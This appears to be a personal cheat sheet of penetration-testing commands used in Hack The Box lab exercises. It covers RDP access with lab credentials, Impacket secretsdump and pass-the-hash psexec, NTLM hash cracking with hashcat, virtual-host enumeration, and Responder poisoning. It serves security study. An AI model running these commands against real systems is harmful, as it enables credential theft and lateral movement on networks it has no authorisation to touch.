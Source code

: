 Below are just examples of how to execute each of the commands that I would normally use.
# XfreeRDP
```
xfreerdp /v:10.129.43.43 /u:htb-student /p:'HTB_@cademy_stdnt!' /drive:linux,/home/p3ta/ /dynamic-resolution
```
# Impacket
Secretsdump
```
impacket-secretsdump server_adm@10.129.43.42 -just-dc-user administrator
```
```
impacket-secretsdump local -system SYSTEM -ntds ntds.dit 
```
```
impacket-secretsdump local -system registry/SYSTEM -ntds Active\ Directory/ntds.dit
```

PSexec
```
impacket-psexec administrator@10.129.43.42 -hashes :7796ee39fd3a9c3a1844556115ae1a54
```
# Hashcat
NTLM
```
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```
# Gobuster
VHOST
```
gobuster vhost -u mailroom.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
# FFUF
VHOST
```
sudo ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://mailroom.htb/ -H "Host: FUZZ.mailroom.htb" -fs 7748
```
# Responder
Location: /tools/responder
```
sudo ./Responder.py -wrf -v -I tun0
```
